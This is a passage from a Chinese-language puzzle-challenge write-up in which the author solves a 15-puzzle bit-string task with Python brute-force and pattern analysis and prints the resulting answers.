            for j in range(Board.size):
                print(self.b[self.loc2index([i, j])], end='\t')
            print('')

transes = [[[0 for _ in range(Board.size ** 2)] for _ in range(2)] for _ in range(branch_len)]
locs = [0 for _ in range(branch_len)]
for num, (bit_loc, move1, move2) in data.items():
    transes[num - 1] = [Board.calc_trans(move1), Board.calc_trans(move2)]
    locs[num - 1] = bit_loc

b = Board()
for bitvec in range(1 << bitlen):
    if bitvec % 1000 == 0:
        print(bitvec)
    # check bs
    b.reset()
    for i in range(branch_len):
        loc = locs[i]
        bit = (bitvec >> (bitlen - loc)) & 1
        b.trans(transes[i][bit])
    if b.scrambled():
        print(bin(bitvec)[2:].zfill(bitlen))
        break

# 0010111110000110
```

第三问，$2^{64}=18446744073709551616$，这下枚举不了了。一共4096个branch，每个有两种move，其实就是两种变换，而且每次变换空格都是在右下角，所以每次选哪个move都是有效的，每个move由比特串上的某一位决定；每一位bit都决定了多个branch的move，而且我发现每个bit掌控的branch是非常有规律的！我用`locs`数组表示每个branch由哪个bit掌控，第二问数据`locs`前面一些元素为：

```python
[12, 9, 12, 9, 8, 16, 8, 16, 12, 9, 12, 9, 8, 16, 8, 16, ...]
```

每个bit掌控的位置总是成对的，所以我进行了这样的测试，前三个branch共有四种选择，应用后棋盘的状态变为：

| branch1 | branch2 | branch3 | 状态  |
| ------- | ------- | ------- | --- |
| 0       | 0       | 0       | A   |
| 1       | 0       | 1       | A   |
| 0       | 1       | 0       | B   |
| 1       | 1       | 1       | C   |

发现如果branch2对应的比特为0的话，不管前后怎么变，都会产生状态A；如果为1则会变。那么它到底应该是1还是0呢？根据上面的`locs`可以知道它对应第9个bit，而第二问的答案是`0010111110000110`，第九个bit是`1`。之后又经过了多次其他测试，都是这样，所以得到了这样的算法：

```python
from get_data import read_data

level = 3
filename = f'data{level}.txt'
bitlen = (1 << level) ** 2
branch_len = bitlen ** 2

data, _ = read_data(filename)


class Board:
    size = 4
    origin = [
        1, 2, 3, 4,
        5, 6, 7, 8,
        9, 10, 11, 12,
        13, 14, 15, 0
    ]

    def __init__(self):
        self.b = [
            1, 2, 3, 4,
            5, 6, 7, 8,
            9, 10, 11, 12,
            13, 14, 15, 0
        ]
        self.empty_loc = [3, 3]

    def reset(self):
        self.__init__()

    def scrambled(self):
        return self.b != Board.origin

    @staticmethod
    def loc2index(loc):
        return Board.size * loc[0] + loc[1]

    @staticmethod
    def index2loc(index):
        return [index // Board.size, index % Board.size]

    def swap(self, loc1, loc2):
        self.b[self.loc2index(loc1)], self.b[self.loc2index(loc2)] = \
            self.b[self.loc2index(loc2)], self.b[self.loc2index(loc1)]

    def step(self, c):
        swap_loc = [i for i in self.empty_loc]
        if c == 'X':
            return
        elif c == 'U':
            swap_loc[0] -= 1
        elif c == 'D':
            swap_loc[0] += 1
        elif c == 'L':
            swap_loc[1] -= 1
        elif c == 'R':
            swap_loc[1] += 1
        if swap_loc[0] < 0 or swap_loc[0] >= Board.size or swap_loc[1] < 0 or swap_loc[1] >= Board.size:
            raise Exception
        else:
            self.swap(self.empty_loc, swap_loc)
            self.empty_loc = swap_loc

    def move(self, s):
        for c in s:
            self.step(c)

    @staticmethod
    def calc_trans(move):
        tb = Board()
        start_num2index = [0 for _ in range(len(tb.b))]
        for index, num in enumerate(tb.b):
            start_num2index[num] = index
        tb.move(move)
        trans = [0 for _ in range(len(tb.b))]
        for index, num in enumerate(tb.b):
            trans[start_num2index[num]] = index
        return trans

    def trans(self, trans):
        temp = [0 for _ in range(len(self.b))]
        for index, dest in enumerate(trans):
            temp[dest] = self.b[index]
            if temp[dest] == 0:
                self.empty_loc = self.index2loc(dest)
        self.b = temp
        return self

    def print(self):
        for i in range(Board.size):
            for j in range(Board.size):
                print(self.b[self.loc2index([i, j])], end='\t')
            print('')


transes = [[[0 for _ in range(Board.size ** 2)] for _ in range(2)] for _ in range(branch_len)]
locs = [0 for _ in range(branch_len)]
for num, (bitloc, move1, move2) in data.items():
    transes[num - 1] = [Board.calc_trans(move1), Board.calc_trans(move2)]
    locs[num - 1] = bitloc

bitmap = {i + 1: -1 for i in range(bitlen)}
t = transes
for i in range(1, branch_len - 1):
    # i - 1, i, i + 1
    if 1 in t[i - 1][0] and 1 in t[i][0] and 1 in t[i + 1][0]:
        temp = -1
        if Board().trans(t[i - 1][0]).trans(t[i][0]).trans(t[i + 1][0]).b ==\
                Board().trans(t[i - 1][1]).trans(t[i][0]).trans(t[i + 1][1]).b:
            temp = 1
        elif Board().trans(t[i - 1][0]).trans(t[i][1]).trans(t[i + 1][0]).b ==\
                Board().trans(t[i - 1][1]).trans(t[i][1]).trans(t[i + 1][1]).b:
            temp = 0
        if temp != -1:
            if bitmap[locs[i]] == -1:
                bitmap[locs[i]] = temp
            elif bitmap[locs[i]] != temp:
                print(f'inconsistent: {bitmap[locs[i]]}, temp = {temp}')

print(bitmap)
print(list(bitmap.values()).count(-1))
for v in bitmap.values():
    print(v, end='')
```

在终于看到题目给的数据后运行得到了解`1100111101111000111001000001111000011010100110101000011010011011`。
